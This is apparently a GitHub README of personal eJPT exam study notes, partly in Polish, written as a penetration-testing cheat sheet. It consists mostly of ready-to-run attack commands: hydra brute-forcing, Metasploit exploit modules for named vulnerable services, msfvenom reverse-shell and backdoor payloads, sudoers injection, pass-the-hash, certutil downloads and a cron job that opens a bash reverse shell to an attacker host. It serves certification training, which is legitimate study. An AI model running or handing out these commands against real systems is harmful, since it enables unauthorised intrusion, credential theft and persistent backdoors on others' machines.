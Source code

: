# eJPT-Study-Notes
My sheet sheet, which I used during my eJPT exam. I've got 91% :)

# The cheat sheet
PIVOTING: 
jak robisz autoroute to daj na adres ip maszyny, do której się chcesz dostać, ewentualnie na ip widocznego na interfejsie pierwszej maszyny


Lists:
a)users:
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/data/wordlists/unix_users.txt
/usr/share/metasploit-framework/data/wordlists/namelist.txt
/usr/share/wordlists/metasploit/unix_users.txt
root
vagrant
search smtp_enum # pobranie userów po SMTP```````

b)passwords:
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/wordlists/metasploit/unix_passwords.txt
/usr/share/metasploit-framework/data/wordlists/common_passwords.txt
/usr/share/wordlists/rockyou.txt.gz

c)for cracking:
auxiliary/scanner/http/http_login
http/dir_scanner
auxiliary/scanner/winrm/winrm_login

d)files, dirs:
/usr/share/metasploit-framework/data/wordlists/directory.txt

hydra fast commands:
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt ip ftp
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt ip ssh
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt demo.ine.local smb


vulnerabilities:
* jak nie mas pomysłu to są 3 opcje: wpisujesz wersje w gogle i słowa exploit lub cve | searchsploit wersja | moduł metasplota suggester czy jakoś tak
* jak masz exploita na daną wersje, ale nie działa to niekoniecznie robisz coś źle, być może został dany exploit załatany
linux - vsftpd v 2.3.4  -  exploit/unix/ftp/vsftpd_234_backdoor
linux - proftpd 1.3.3c  -  proftpd_133c_backdoor
linux - Haraka SMTP v2.8.9 i 2.8.8  -  exploit/linux/smtp/haraka
linux - libssh v0.6.0-0.8.0 i 0.8.3  -  auxiliary/scanner/ssh/libssh_auth_bypass
linux - Samba v3.5.0 / 3.0.20 (ogólnie smbd 3.5.0 to 4.4.14, 4.5.10, and 4.6.4)  -  exploit/……/is_known_pipename
linux - samba 3.0.20  -  exploit/multi/samba/usermap_script
windows - Apache Tomcat v8.5.19  -  exploit/multi/http/tomcat_jsp_upload_bypass
windows - rejetto HttpFileServer 2.3 -  exploit/windows/http/rejetto_hfs_exec
xoda web service  -  exploit/unix/webapp/xoda_file_upload
linux priv esc  -  chkrootkit  0.49  -  exploit/unix/local/chkrootkit  (whereis chkrootkit)
windows  -  badblue 2.7  -  exploit/windows/http/badblue_passthru
Windows 2008 and 2008R2 - search eternalblue  -  ms17_010_eterenalblue (auxiliary/scanner/smb/smb_ms17_010 detection)
PHP 5.4.2 versions below - CGI plik - shellshock  -  exploit/multi/http/php_cgi_arg_injection | apache_mod_chi_bash_env_exec 
/phpinfo.php - 5.2.4ubuntu5.10 lub CGI | exploit/multi/http/php_cgi_arg_injection
WebDAV | davtest -url http://10.0.17.27/webdav | davtest -auth bob:password_123321 -url http://10.0.17.27/webdav | exploit/windows/iis/iis_webdav_upload_asp
ProcessMaker HTTP -  exploit/multi/http/process_maker_exec
5985 port | WinRM - winrm_script_exec | auxiliary/scanner/winrm/winrm_login


webshells, reverse shells:
/usr/share/webshells/php/php-backdoor.php
msfvenom -p windows/shell/reverse_tcp LHOST=ip LPORT=1234 -f asp > shell.aspx
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/asp/webshell.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -f exe > payload.exe


usefull:
post/multi/manage/shell_to_meterpreter
TCP port 5985 5986 (HTTPS) wsman (słowo klucz) - Windows Remote   Management Protocol - auxiliary/scanner/winrm/winrm_login
mimikatz = KIWI | meterpreter>load kiwi
testowanie dziwnych portów (np. takich ze znakiem zapytania?) - nc -nv ip <port>
Microsoft IIS = asp lub aspx
Apache i Linux = php
exploit/windows/misc/hta_server
https://github.com/411Hall/JAWS - windows wnumeration
https://github.com/rebootuser/LinEnum - linux enumeration
auxiliary/analyze/crack_windows
post/linux/gather/hashdump
auxiliary/analyze/crack_linux
auxiliary/scanner/rdp/rdp_scanner - RDP może być na innym niż domyślnym porcie
nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3 (JAK JEST CGI FILE)
exploit/windows/smb/psexec
post/linux/gather/phpmyadmin_credsteal # może znaleźć hasło do roota
https://github.com/hfiref0x/UACME


interesting paths:
/wamp/www/wordpress/wp-config.php
C:\wamp\alias\phpmyadmin.conf
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe


privilege esc:
linux - ps aux - szukasz procesu chkrootkit
linux - exploit/unix/local/chkrootkit
linux - find / -not -type l -perm -o+w | it will find world writable files
linux - etc/shadow jak można edytować to możemy usera dodać
linux -  find / -user root -perm -4000 -exec ls -ldb {} \ | poszukuje SEUID programs
linux - sudo -l | sprawdź do czego masz uprawnienia sudo bo czasem jak masz np. do nano albo cat to możesz wyświetlić /etc/shadow, a znowu jak masz do vi to możesz z tego poziomu zrobić basha, tak samo z man: otwierasz sudo man, potem !/bin/bash
linux -  grep -nri “/tmp/message” /usr | poszukiwanie plików z daną zawartością, w tym przypadku zapisujących do wskazanej ścieżki
linux - printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
linux - plik welcome s ustawionym SUID, "strings welcome" wskazuje wykonanie pliku greetings z poziomu pliku welcome, rm greetings, cp /bin/bash greetings, ./welcome
getsystem
linux - zawsze warto sprawdzić pliki w katalogu domowym oraz w /tmp
linux - generalnie jak jest crontab i privilege esc z tym związane, to szukasz pliku (polecenie stat), który będzie edyowany co minute, jak znajdziesz plik to szukasz pliku, który w swoim kodzie ma edycję pliku (polecenie grep)
windows - exploit/windows/local/bypassuac_injection
windows - Source: https://github.com/itm4n/PrivescCheck  | PowerShell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck "
windows - runas.exe /user:administrator cmd
windows - psexec.py Administrator@target_ip
windows - exploit/windows/smb/psexec
windows - /root/Desktop/tools/UACME/Akagi64.exe | Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
windows - Source: https://github.com/PowerShellMafia/PowerSploit
windows - load incognito | list_tokens -u | impersonate_token "ATTACKDEFENSE\Administrator"
windows - crackmapexec smb ip -u Administrator -H "NTLM hash" # zalogowanie się na admina używając hasza NTLM



transfering files:
certutil -urlcache -f http://10.10.3.2/nc.exe nc.exe
python -m SimpleHTTPServer 80
python3 -m http.server 80 
nc.exe -nvlp 1234 > test.txt
nc -nv ip port < test.txt
wget http://ip/php-backdoor.php


persistence:
windows - getgui
*windows - exploit/windows/local/persistence_service
linux - echo "* * * * * cd /home/student/ && python -m SimpleHTTPServer" > cron; crontab -i cron
linux - scp student@192.37.104.3:~/.ssh/id_rsa , a potem ssh -i id_rsa student@192.37.104.3
*linux - echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/ip_kali/1234 0>&1'" > cron (TO JEST NAJLEPSZE)

fast login:
scanner/ssh/ssh_login
mysql -h ip -u root # jak root jest bez hasła
